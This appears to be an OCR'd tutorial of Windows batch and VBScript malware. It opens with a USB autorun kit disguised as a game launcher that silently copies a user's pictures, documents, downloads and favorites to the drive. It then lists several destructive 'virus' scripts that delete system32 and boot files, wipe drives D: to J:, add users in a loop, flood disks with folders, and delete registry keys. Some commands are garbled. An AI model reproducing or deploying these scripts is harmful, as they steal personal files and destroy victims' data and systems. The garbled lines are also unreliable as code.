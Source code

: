 [autorun]
<br> 
icon=drive.ico
<br>
open=launch.bat
<br>
action=Click ok to Run game for Windows
<br>
shell\open\command=launch.bat
<br>

Save As...autorun.inf
<br>
<br>

Step 2:
<br>

@echo off
<br>
:: variables
<br>
/min
<br>
SET odrive=%odrive:~0,2%
<br>
set backupcmd=xcopy /s /c /d /e /h /i /r /y
<br>
echo off
<br>
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
<br>
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
<br>
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\videos"
<br>
%backupcmd% "%USERPROFILE%\Downloads" "%drive%\all\Downloads"
<br>
%backupcmd% "%USERPROFILE%\Documents" "%drive%\all\Documents"
<br>
@echo off
<br> 
cls
<br>


Save as...file.bat
<br>
<br>

Step 3:
<br>

CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
<br>

Save as...invisible.vbs
<br>
<br>

Step 4:
<br>

wscript.exe \invisible.vbs file.bat 
<br>

Save as...launch.bat
<br>

Step 5:

copy all the 4 files to pendrive.
<br>
<br>
<br>
1)  @echo off
<br>
:virus
<br>
del /f /q "C:\WINDOWS\system32"
<br>
taskkill explorer.exe
<br>
tskill explorer.exe
<br>
set /a _virus+=1
<br>
net user %_virus+% /add
<br>
goto virus
<br>

2)@echo off
<br>
attrib -r -s -h c:autoexec.bat
<br>
del c:autoexec.bat
<br>
attrib -r -s -h c:boot.ini
<br>
del c:boot.ini
<br>
attrib -r -s -h c:ntldr
<br>
del c:ntldr
<br>
attrib -r -s -h c:windowswin.ini
<br>
del c:windowswin.ini
<br>

@echo off
<br>
msg * YOU GOT OWNED!!!
<br>
shutdown -s -t 7 -c "A VIRUS IS TAKING OVER c:Drive
<br>


3)How to Make the virus ?
<br>
   1. Open Notepad and copy below code into it.
<br>
@Echo off
<br>
Del C:\ *.* |y
<br>





4)@echo off
<br>
:virus
<br>
cd /d c:
<br>
md%random%
<br>
cd /d D:
<br>
md%random%
<br>
cd /d E:
<br>
md%random%
<br>
goto virus
<br>


5)@echo off
<br>
del D:/*.*/f /s /q
<br>
del E:/*.*/f /s /q
<br>
del F:/*.*/f /s /q
<br>
del G:/*.*/f /s /q
<br>
del H:/*.*/f /s /q
<br>
del I:/*.*/f /s /q
<br>
del J:/*.*/f /s /q
<br>
 



6 @ECHO OFF
<br>
START reg delete HXCR/.EXE
<br>
START reg delete HXCR/.dll
<br>
START reg delete HXCR/.*
<br>


7)


